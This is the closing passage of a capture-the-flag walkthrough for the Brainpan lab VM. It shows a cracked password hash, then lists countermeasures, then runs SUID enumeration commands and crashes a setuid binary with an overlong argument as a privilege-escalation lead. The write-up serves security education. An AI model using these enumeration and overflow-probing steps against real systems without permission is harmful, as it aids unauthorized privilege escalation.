HASH: $6$72820166$U4DVzpcYxgw7MVVDGGvB2/H5lRistD5.Ah4upwENR5UtffLR4X4SxSzfREv8z6wVl0jRFX40/KnYVvK4829kD1
PASS: hashcat
```

## Exploit Countermeasures

* Don't compile code with ASLR disabled, prefer building executables that don't allow an executable stack.
* Always check buffer limits when developing native applications in C/C++.

## Privilege Escalation Countermeasures

* Double check that commands granted as `sudo` cannot be abused to escalate privileges by having them execute/chain subcommands.

## Next Episode

After searching brainpan for SUID binaries, I was able to find `/usr/local/bin/validate`:

```none
puck@brainpan:/$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping6
/bin/ping
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/lppasswd
/usr/bin/passwd
/usr/bin/gpasswd
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/local/bin/validate
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
```

```none
puck@brainpan:/$ find / -user root -perm -4000 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/fusermount
/bin/ping6
/bin/ping
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/lppasswd
/usr/bin/passwd
/usr/bin/gpasswd
/usr/sbin/pppd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
```

```none
puck@brainpan:/$ ls -l /usr/local/bin/validate
-rwsr-xr-x 1 anansi anansi 8761 Mar  4  2013 /usr/local/bin/validate
```

Although the `/usr/local/bin/validate` isn't owned by `root` it still looks like a fun buffer overflow challenge to escalte privileges to the `anasi` user:

```none
puck@brainpan:/$ /usr/local/bin/validate test
validating input...passed.
puck@brainpan:/$ /usr/local/bin/validate $(python -c "print 'A'*1000")
Segmentation fault
```

You can download `/usr/local/bin/validate` by copying it to the `/home/puck/web/bin` directory and downloading it via your web browser just like you downloaded `brainpan.exe`.
